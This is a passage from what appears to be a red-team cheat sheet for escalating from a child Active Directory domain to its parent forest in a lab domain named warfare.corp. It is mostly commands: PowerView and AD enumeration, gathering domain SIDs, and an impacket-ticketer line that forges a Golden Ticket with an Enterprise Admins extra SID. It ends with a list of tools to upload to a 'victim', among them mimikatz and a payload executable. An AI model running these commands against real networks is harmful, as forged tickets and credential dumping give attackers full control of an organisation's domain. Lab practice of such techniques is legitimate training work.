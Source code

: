 ```powershell
Get-ADDomainController -Server child.warfare.corp
Get-ADForest
```

3. Get SID for child/parent:

```powershell
Get-DomainSID -Domain child.warfare.corp
Get-DomainSID -Domain warfare.corp
```

4. Golden Ticket using ticketer:

```bash
impacket-ticketer -aesKey <AESKEY> -domain child.warfare.corp -domain-sid <CHILD_SID> -extra-sid <PARENT_SID>-519 Administrator
```

---

### Required Tools to Upload to Victim:

* `agent`
* `payload.exe`
* `mimikatz.exe`
* `PowerView.ps1`

Import PowerView in powershell victim:

```powershell
powershell
Import-Module .\PowerView.ps1
```

